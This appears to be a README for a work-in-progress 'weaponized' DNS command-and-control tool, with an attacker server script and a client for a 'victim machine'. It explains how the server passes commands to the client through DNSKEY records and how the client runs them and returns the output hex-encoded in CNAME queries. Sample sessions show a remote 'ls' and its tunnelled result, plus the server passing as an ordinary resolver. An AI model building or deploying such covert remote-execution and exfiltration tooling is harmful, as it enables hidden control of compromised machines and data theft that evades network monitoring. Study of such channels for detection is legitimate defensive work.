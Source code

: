 WiP weaponized CnC through DNS.

this is just a demonstration of how to use DNS as a CnC server.
To execute, just run dns_dirty_server.py on the attacker machine, by default it listen on 127.0.0.1:4242.
Then run dns_dirty_client.py on the victim machine, by default it will try to connect to 127.0.0.1:4242.

how it works:
  - The server will act as a real DNS server, and can answer to any DNS query.
  - The server can overwrite DNS records on the fly, based on value in the dns_beacon.json file.
  - The client will send a DNS query to the server, and the server will answer with the value in the dns_beacon.json file or with the real DNS response.
  - If the client make a query of the type "DNSKEY", then the server will catch it, ask for the payload, and store it in the DNSKEY record.
  - Then the client will execute the payload, and send the result to the server through a DNS query of the type "CNAME".
  - The server will catch the result from the CNAME query, reconstruct the result, and print it.


Example for a simple ls command:
```shell
>> python dns_dirty_server.py 
DNS is listening on 127.0.0.1:4242
Enter the answer for toto.org. (DNSKEY): ls
README.md
dns_beacon.json
dns_dirty_server.py
wrapper_dirty.py
```

``` shell
>> python wrapper_dirty.py 
2a524541444d452e6d640a646e735f626561636f6e2e6a736f6e0a646e735f.toto.org
1a64697274795f7365727665722e70790a777261707065725f64697274792e.toto.org
0a70790a.toto.org
```

and for a legit DNS query:
```shell
 >> python dns_dirty_server.py 
DNS is listening on 127.0.0.1:4242
```

```shell
>> dig A google.fr @127.0.0.1 -p 4242

; <<>> DiG 9.20.4 <<>> A google.fr @127.0.0.1 -p 4242
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56507
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;google.fr.			IN	A

;; ANSWER SECTION:
google.fr.		75	IN	A	216.58.214.163

;; Query time: 16 msec
;; SERVER: 127.0.0.1#4242(127.0.0.1) (UDP)
;; WHEN: Wed Jan 01 13:39:46 CET 2025
;; MSG SIZE  rcvd: 43
```
